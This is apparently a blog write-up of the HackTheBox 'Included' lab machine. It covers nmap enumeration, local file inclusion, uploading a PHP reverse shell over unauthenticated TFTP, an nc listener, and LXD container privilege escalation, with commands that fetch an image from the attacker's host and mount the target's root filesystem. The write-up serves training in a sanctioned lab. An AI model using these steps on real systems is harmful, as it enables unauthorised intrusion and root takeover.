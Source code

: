 ```yaml
---
title: "HackTheBox - Included"
author: Nasrallah
description: ""
date: 2022-07-17 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, udp, ftp, lfi, lxd]
img_path: /assets/img/hackthebox/machines/included/
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Included](https://app.hackthebox.com/starting-point?tier=2) from [HackTheBox](https://www.hackthebox.com). The target is running a webserver on port 80 and a TFTP server on udp port 69 which is unusual. The webpage is vulnerable to lfi, and the tftp server requires no authentication. We upload a reverse shell to the tftp server and request it using the lfi to get access to the target. After that we find some credentials in one of the  web files that belongs to a user named `mike`. That user is part of a group called `lxd`, and we find a way to escalate privilege with that. 

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.129.95.185 (10.129.95.185)
Host is up (0.20s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_Requested resource was http://10.129.95.185/?file=home.php
```

Found port 80 open running Apache.

Let's run another scan but this time, we scan UDP ports. `sudo nmap -sU -T4 {target_IP}`

>This take a very long time.

```terminal
Nmap scan report for 10.129.95.185 (10.129.95.185)
Host is up (0.080s latency).
Not shown: 998 closed udp ports (port-unreach)
PORT   STATE         SERVICE
69/udp open|filtered tftp
```

We have port 69 open running `tftp`.

### Web

Let's navigate to the webpage.

![](1.png)

Nothing really interesting here, but if we take a look at the URL `http://10.129.95.185/?file=home.php` we see that the website is including resources from the system(home.php) via the parameter `file`, and this might be vulnerable to LFI(**L**ocal **F**ile **I**nclusion).

### LFI

Let's see if we can read the `/etc/passwd` file by including it in the file parameter: `http://10.129.95.185/?file=/etc/passwd`.

![](2.png)

We now confirmed that the website is vulnerable to LFI.

### TFTP

We found earlier that TFTP server is running on udp port 69. We can connect to that service but first we need to install it on our machine.

```terminal
sudo apt install tftp
```

By default, TFTP needs no authentication. We can connect to it like so `tftp {target_ip}`.

![](3.png)


## **Foothold**

From the help menu, we see the command `put` that gives us the ability to upload file to the server.

We can upload a reverse shell and then request it using the LFI to get a shell. We can use this one [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

>Change the ip in the code to you tun0 ip.

From the same directory of the reverse shell file, connect to the TFTP server and upload the file using `put reverse.php`.

![](4.png)

Now run a listener `nc -lvnp 1234`

The next thing we need to know is the path of the file we just uploaded. A quick search on google we get the path of the TFTP server.

![](5.png)

Great! Now go the the browser and request the file. `http://10.129.95.185/?file=/var/lib/tftpboot/reverse.php`.

![](6.png)

Got the reverse shell. I then stabilized my shell with the following commands.

```terminal
python3 -c 'import pty;pty.spawn("/bin/bash")'

export TERM=xterm
 
**ctrl + z**

stty raw -echo;fg
```

![](7.png)


## **Privilege Escalation**

Searching in the webserver's directory, i found a password for user `mike` in on the files.

![](8.png)

Let's change the user to mike `su mike`.

![](9.png)

After running the command `id`, we notice that mike is part of a group named `lxd`.

Searching on google for lxd privilege escalation, found this useful [article](https://www.hackingarticles.in/lxd-privilege-escalation/) that provides us with the following guided steps to follow.

 1. Steps to be performed on the attacker machine:
    - Download build-alpine in your local machine through the git repository.
    - Execute the script “build -alpine” that will build the latest Alpine image as a compressed file, this step must be executed by the root user.
    - Transfer the tar file to the target machine.
 
 2. Steps to be performed on the target machine:
    - Download the alpine image.
    - Import image for lxd.
    - Initialize the image inside a new container.
    - Mount the container inside the /root directory.


Let's get started by cloning the git repo.

```bash
git clone  https://github.com/saghul/lxd-alpine-builder.git
```

Then we need to build the image by running `sudo ./build-alpine`

![](10.png)

The above command has created a tar file that we need to upload to the target using python http server.

```bash
sudo python3 -m http.server 80
```

![](11.png)

Now we go to the target machine and request the file.

```bash
wget http://10.10.10.10/alpine-v3.16-x86_64-20220803_1751.tar.gz
```

![](12.png)

Now we add the image to the LXD as follows:

```bash
lxc image import ./alpine-v3.16-x86_64-20220803_1751.tar.gz --alias myimage
```

let's check the list of images.

```bash
lxc image list
```

![](13.png)

Great! We can see that our image is there.

We now need to run the following list of commands that would give us access to root.

```bash
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```

![](14.png)

Great! We got a root shell. But to see all the resources of the target machine, navigate to `/mnt/root`

![](15.png)


---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
